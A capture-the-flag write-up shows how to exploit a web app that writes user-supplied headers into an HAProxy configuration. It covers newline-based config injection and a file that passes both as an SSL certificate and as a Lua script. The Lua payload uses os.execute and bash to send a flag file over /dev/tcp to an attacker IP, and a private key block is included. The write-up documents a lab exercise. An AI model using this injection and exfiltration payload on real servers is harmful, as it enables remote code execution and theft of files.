 This is a configuration injection in HAProxy.

You can add custom headers to your haproxy instance (cf: http://www.haproxy.org/).

Here, the validation of headers are not really great..

```python
def is_http_header(header: str) -> bool:
    m = re.match(r'\w{3,20} \w{3,200}', header)
    return m is not None
```

So we have a configuration injection! (ex: header="test test\n    whatever_you_want_here") The question now is, what to inject?

After digging a bit we inderstand that you can load LUA scripts in HAProxy. But how upload an LUA script? 

The website validate the ssl certificate/key using openssl. But here are 2 files that are valid both as a LUA script and as a openssl certificate or key:

```lua
os.execute("(sleep 1 && bash -c 'cat /var/lib/haproxy/the_flag_q4ZIDK2PYLo5yVszgsWZ > /dev/tcp/{IP}/4455') &") --[[
-----BEGIN CERTIFICATE-----
MIIDXTCCAkWgAwIBAgIJAOf9+/oig+EfMA0GCSqGSIb3DQEBCwUAMEUxCzAJBgNV
BAYTAkFVMRMwEQYDVQQIDApTb21lLVN0YXRlMSEwHwYDVQQKDBhJbnRlcm5ldCBX
aWRnaXRzIFB0eSBMdGQwHhcNMTcwNDAxMjIyMDA4WhcNMTgwNDAxMjIyMDA4WjBF
MQswCQYDVQQGEwJBVTETMBEGA1UECAwKU29tZS1TdGF0ZTEhMB8GA1UECgwYSW50
ZXJuZXQgV2lkZ2l0cyBQdHkgTHRkMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIB
CgKCAQEAoqR+RBT5Xg90Lf3WIUHvFKNFP3kI8QFZ3CY+R3JloWzCIvB+HFJTNp24
hrtIaOd3llNa8jqjXEKGEcWAVdw3p+7Eo58PTZEwSk+q4FgnNMEp+Fgy/SRb2qZx
9Fu4W4nORFJ9A0Livm2oRCIMUW1AQZjolUqc6/atZ2UEZ9Mp7iog5xzOSWfeaMZP
impFbBfgSlpe8BweRD5pPdFLxgttYxE6zVFhE5vZVSrgWo8aXskMUhppgxQsLGXw
2QhgbEqtHe6hiN12BcVaF98581h2z5r2Q53awJX6dPbxzUBrY3SEw3o+oZu6Ywzi
U8LB4MhfiQAIdIjvNG3C2zuyfI+N6wIDAQABo1AwTjAdBgNVHQ4EFgQUAglJb8Pj
/hb1D+7IeKTVw5rEpAQwHwYDVR0jBBgwFoAUAglJb8Pj/hb1D+7IeKTVw5rEpAQw
DAYDVR0TBAUwAwEB/zANBgkqhkiG9w0BAQsFAAOCAQEAGejiTs40m84md6GygrFg
+qbT3j2a0y2VJm4rYyA32z4v8iBMTbB+mPuzY5TL11PHAobhXoX25X0koGslpHtQ
iwxA4kdx4bk2oc5SYfz1K0QoZrGGEQ9g44RsMAPlROJbOF1i4wa4zmm5EjkrY6ib
YlqanZHp7si4gnikj3JrXaxLsqiREnCYB0v5yCRNrQPawvuiByLXhT+fPyPxJkK8
PuMoibi/bhnatmbqUdzs6JFZPU72lMYh7yS82JamcAqH53dOQ7m+QIl8ggxo8jLU
vEFtZiTSzRJ/se347aB9HSWTk04uIMosYvPtLuh2FWyhWGigMeiQQ0oz+lVRQz/H
6A==
-----END CERTIFICATE-----
--]]
```


```lua
--[[
-----BEGIN PRIVATE KEY-----
MIIEvAIBADANBgkqhkiG9w0BAQEFAASCBKYwggSiAgEAAoIBAQCipH5EFPleD3Qt
/dYhQe8Uo0U/eQjxAVncJj5HcmWhbMIi8H4cUlM2nbiGu0ho53eWU1ryOqNcQoYR
xYBV3Den7sSjnw9NkTBKT6rgWCc0wSn4WDL9JFvapnH0W7hbic5EUn0DQuK+bahE
IgxRbUBBmOiVSpzr9q1nZQRn0ynuKiDnHM5JZ95oxk+KakVsF+BKWl7wHB5EPmk9
0UvGC21jETrNUWETm9lVKuBajxpeyQxSGmmDFCwsZfDZCGBsSq0d7qGI3XYFxVoX
3znzWHbPmvZDndrAlfp09vHNQGtjdITDej6hm7pjDOJTwsHgyF+JAAh0iO80bcLb
O7J8j43rAgMBAAECggEAXculcdfys9cPtlJUQhvHKEy8a81+ZZbU3sxDUGrdx4l0
MDgnUmf7y1yMBU9OhAkxA0WRBm7gtR08OlV/HIUCp9tgFchuR9p6UfC95+GOwrK/
ZJRg23IzctZYk4atvESt6uLza4UQRKfyyVAlcHQkAXCQeUBtXPuGp0EvmDzESq+f
ZmOyxdFXey0nDsHoGhvL7fMQTFpAGHInjy6+pIOMgKsrHEL+FkgAU668kC8h5/Z4
jd2Fbpq8y66slgPGOw9LH4r9xbixanJvezVnqQhQogQLq36KQNYY3oPzDGpfG8Up
iawSWeW8vRlv9e2e4Fc4+NADG5N/awnDS5YAgPoWWQKBgQDWM8oTdXd6v/3dj1l8
9ZEMTbacHk7fJ0vCAiR92DXvjo6j3jhj8/CujkkZTu1BO9crZyOXk8bzw2a41aHC
YdIr4jwPwi15PsYNSn9hDK0LvdktkWVoq3rtKoFw2dLSJdOGGL5Ibmp+vf3mp4S5
AtY+q35dm2gWWCzhbZeYDW4PNwKBgQDCYRm0HmXmEFEOVo3LJuSH4gN5WIi+iTf8
TfROMCTh2edpsssiFY4sQyxPZqQ2JCQj7nA5YkBnA9OW8cD1hS/0MTD1aGKgr3so
mBo+sECeKKO/A2sbAFRPL1isIPS5WjXyN/SDNV2wbP552EybAn6LliDzZpDkd2BQ
R3Nf+7xI7QKBgEAgWQriS9avy6yc0cmbKsVoLpcma65a8U8vnQUfyWXiY8mjKXai
/RcE+dVdz6GL7KrNwdYLI7Cuev4y1q5+4pDItfpxw3Nc26X2+5NuXA/70hzWPmnL
jI2cAAxs6bSIJn8qwSymAbPX5T88P3uz4bf5V2dmsw6dbzI9wPiAbMaZAoGAGebQ
gwTt9StFcdCs0l5bY5QFfH0Es8cbM767iFO4BnR/9sDBesg+ir1kwSvfQ+uq+TLD
t5HVHSUQY/PRD6ZwzmxjpsADLIBVvAIQtTvNUIX/0+tDsXRox6h6e21kzvIrcBxu
s7E/y8uqWVguVRWPAVC/EVAgjKEvr2LmB+tGmr0CgYBPsPB7+aiS3STE5B6IPcNd
jni/p3DK9hICiMCqXiS+J3FmkXI9DCMFkM1d8vmzUJX5e11wQSbP98LkIZOQdXqX
iggL5sXR3zHwZgKQPQxYlHRzdvRJ+CCtOlOhUUTeiQBKiI5QuQwNQV2EC+h+zjcm
cVJiYsjlQiWDKwElCr3d6A==
-----END PRIVATE KEY-----
--]]

```

You just have to upload those ssl cert/key and load the PEM file as a lua script using your configuration injection.

Job is done!
